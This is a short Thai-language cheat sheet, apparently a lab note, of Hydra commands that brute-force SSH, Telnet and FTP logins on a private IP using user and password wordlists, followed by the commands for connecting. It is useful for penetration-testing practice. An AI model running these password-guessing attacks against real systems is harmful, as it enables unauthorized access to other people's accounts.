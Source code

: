 ## SSH brute force

- สำหรับทดสอบ
```bash
hydra -L users.txt -P passwords.txt ssh://172.29.169.27 -t 4 -vV
```
- แบบไม่มี log
```bash
hydra -L users.txt -P passwords.txt ssh://172.29.169.27 -t 4
```

- สำหรับเชื่อมต่อ
```bash
ssh username@172.29.169.27
```

## Telnet brute force
- สำหรับทดสอบ
- แบบมี log
```bash
hydra -L users.txt -P passwords.txt telnet://172.29.169.27 -t 4 -vV
```
- แบบไม่มี log
```bash
hydra -L users.txt -P passwords.txt telnet://172.29.169.27 -t 4
```

- สำหรับเชื่อมต่อ
```bash
telnet 172.29.169.27 23
```

## FTP brute force
- แบบมี log
```bash
hydra -L users.txt -P passwords.txt ftp://172.29.169.27 -t 4 -vV
```
- แบบไม่มี log
```bash
hydra -L users.txt -P passwords.txt ftp://172.29.169.27 -t 4
```

- สำหรับเชื่อมต่อ
```bash
ftp 172.29.169.27
```